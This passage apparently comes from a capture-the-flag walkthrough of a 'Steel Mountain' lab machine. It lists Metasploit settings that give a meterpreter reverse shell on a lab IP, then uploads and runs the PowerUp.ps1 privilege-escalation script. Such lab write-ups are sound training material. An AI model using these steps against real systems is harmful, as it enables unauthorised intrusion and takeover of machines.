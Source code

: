 We will search in metasploit if we can find any exploits.

<img src="images/04.Steel-Mountain/11.png">

We found a module which is successfully tested on the version 2.3b. So, we will use this.

<img src="images/04.Steel-Mountain/12.png" height="300">

We will set all the required options.

```
set rhost 10.10.2.217
```

```
set rport 8080
```

```
set lhost tun0
```

Run the exploit.

```
exploit
```

<img src="images/04.Steel-Mountain/13.png">

We got the meterpreter reverse shell and we can read the user flag.

<img src="images/04.Steel-Mountain/14.png" height="100">

# Privilege Escalation

Now, we will elevate our privileges. We will download the powershell script which can find common Windows privilege escalation vectors that rely on misconfigurations in the target. We will first download the script to our machine.

Let's upload it to the target.
```
upload powerup.ps1
```

<img src="images/04.Steel-Mountain/15.png">

Load the powershell module and use powershell.
```
load powershell
```
```
powershell_shell
```

Run the script PowerUp.ps1 that we just downloaded into the target and run it.

```
. .\powerup.ps1
```
